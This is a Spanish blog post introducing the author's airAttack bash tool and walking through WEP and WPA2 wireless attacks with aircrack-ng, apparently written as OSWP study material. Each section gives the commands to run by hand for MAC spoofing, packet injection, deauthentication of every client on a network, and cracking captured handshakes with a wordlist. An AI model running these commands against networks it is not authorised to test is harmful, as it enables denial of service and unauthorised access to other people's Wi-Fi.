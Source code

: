 ```yaml
---
layout: single
title: airAttack
excerpt: "En este artículo, explico la utilidad de la herramienta airAttack. También dejo reflejado cada ataque, la finalidad de cada ataque y como ejecutarlo. Todos los ataques de esta herramienta se ejecutan gracias a la suite aircrack-ng. La herramienta fue publicada en github el día 27/06/2021, pocos días después de aprobar el OSWP como primera release."
date: 2021-08-31
classes: wide
header:
  teaser: /assets/images/airAttack/airAttack.jpg
  teaser_home_page: true
categories:
  - script
tags:
  - shell
  - wireless
  - aircrack-ng
  - wireless_pentesting
---
```


![](/assets/images/airAttack/AIR-ATTACK-Header.jpg)

**airAttack** es una herramienta ofensiva para automatizar los ataques a redes inalámbricas escrita en bash. Esta herramienta será mejorada por mi próximamente para para optimizar determinadas porciones de código. Los ataques de denegación de servicio así como nuevas funciones serán añadidas. Este programa lo escribí cuando estaba estudiando para el OSWP (Offensive Security Wireless Professional).

En este artículo, explicaré cada ataque que puede utilizarse en airAttack, la finalidad y como ejecutarlo manualmente.

La herramienta se puede descargar en:

* [https://github.com/e1abrador/airAttack](https://github.com/e1abrador/airAttack)

<h2> Ataques WEP </h2>

Antes de empezar con los ataques WEP, es importante recalcar que todos estos ataques están enfocados obtener el máximo número de IVS para poder crackear la contraseña, a diferéncia de los ataques WPA2, cuya prioridad es obtener el hash de la red para poder posteriormente crackearlo.

**IVS:** Los IVS, también conocidos como "Archivos de Vector de inicialización", se clasifican como archivos de datos que contienen vectores de  inicialización que son necesarios para la generación de los datos cifrados en la red.

<h3><u>Chop</u> <u>Chop</u> <u>Attack</u></h3>
El ataque de **Chop Chop** consiste en coger un byte de datos de un paquete encriptado WEP, substituyendo los valores de los bytes del paquete y recalculando la suma de verificación del encriptado. Los paquetes ya modificados se envían al router, el router simplemente los descarta hasta que el atacante finalmente logra sustituir una suma de verificación válida.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -4 -a mac_de_ap -h mac_tarjeta wlan0
packetforge-ng -0 -a mac_de_ap -h mac_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w ataque_chopchop
aireplay-ng -2 -r ataque_chopchop wlan0
aircrack-ng captura-01.cap
```

**Nota:** Es importante dejar un pequeño espacio de tiempo entre comando y comando y esperar a que cada comando se inyecte correctamente en el router.

<h3><u>SKA</u></h3>
El ataque **SKA**, también conocido como "Broken Shared Key Authentication" consiste en copiar la dirección MAC de un cliente ya conectado a la red en nuestra própia tarjeta de red y generar un ataque de falsa autenticación con nuestra nueva MAC (MAC copiada del cliente previamente autenticado), el objetivo de autenticar nuestra MAC es generar paquetes ARP en la red.

```bash
airodump-ng --bssid mac_de_ap -c canal_de_ap wlan0 -> Por ahora no es necesario empezar a capturar paquetes.
```
Cuando tenemos el punto de acceso localizado y la MAC localizada, dejaremos de ver el tráfico de la red con airodump y procederemos a cambiar la MAC de nuestra tarjeta de red, con el siguiente one-liner se puede cambiar.

```bash
ifconfig wlan0 down &> /dev/null && macchanger --mac mac_de_cliente wlan0 &> /dev/null && ifconfig wlan0 up &> /dev/null
```

**Nota**: Puede que sea necesario ejecutar por segunda vez el one-liner para que se cambie correctamente.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -b mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -0 1 -e essid_de_ap -a mac_de_ap -h mac_de_ap wlan0
aircrack-ng captura-01.cap
```

<h3><u>ARP</u> <u>Request</u> <u>Replay</u> <u>Attack</u></h3>

El ataque de **ARP Request Replay Attack** consiste en inyectar nuestra MAC en el router víctima, posteriormente se genera un ataque de denegación de servicio sobre uno de los clientes conectados (si este ataque se lanza contra todos, se obtendrán mas IVS, haciendo que la probabilidad de crackear la clave será más alta) y, cuando dichos clientes se vuelvan a conectar a la red, se genererarán de forma automática paquetes ARP, lo que generará IVS.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -x 1000 -n 1000 -b mac_de_ap -h mac_de_tarjeta wlan0
aireplay-ng -0 5 -a mac_de_ap -h mac_de_cliente_conectado wlan0
aircrack-ng captura-01.cap
```

<h3><u>Fragmentation</u> <u>Attack</u></h3>

Este ataque necesita que 1 único paquete de datos sea capturado por airodump. Posteriormente, se genera un nuevo paquete modificado con la dirección MAC de nuestra tarjeta de red y se inyecta el paquete modificado por el atacante en el punto de acceso objetivo. De esta forma, se generarán paquetes ARP y, en consecuéncia, los IVS necesários para crackear la clave.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0 -> es muy recomendable dejar el cliente inyectado, ya que facilitará la obtención del paquete de datos.
packetforge-ng -0 -a mac_de_ap -h mac_de_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w fragmentation_attack
aireplay-ng -2 -r fragmentation_attack wlan0
aircrack-ng captura-01.cap
```

<h2> Ataques WPA2 </h2>

El protocolo WPA2 hace años que empezó a monopolizarse en los routers instalados por las compañías telefónicas. Aun que si que es verdad que el protocolo WEP no se suele utilizar, aún hay routers que lo implementan, ya que hay dispositivos (si són de última generación suele no pasar) que únicamente aceptan el procolo WEP.

El objetivo en estas redes es obtener un hash para poder crackearlo mediante el uso de un diccionario de contraseñas.

<h3><u>Ataque</u> <u>de</u> <u>deautenticación</u></h3>

El **ataque de deautenticación** ataque es un ataque de denegación de servicio, el objetivo es provocar que la víctima se reconecte al punto de acceso, en el momento que un dispositivo se conecta al router, se genera un packete handshake, el cual contiene la contraseña hasheada de la red inalámbrica.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -0 15 -a mac_de_ap -h mac_de_cliente wlan0 -> se utiliza para deautenticar a un solo cliente de la red
aireplay-ng -0 15 -a mac_de_ap -c FF:FF:FF:FF:FF:FF  wlan0 -> se utiliza para deautenticar a todos los clientes de la red
aircrack-ng -J miCaptura captura.cap
hccap2john miCaptura.hccap > hash
john --wordlist=rockyou.txt hash
```
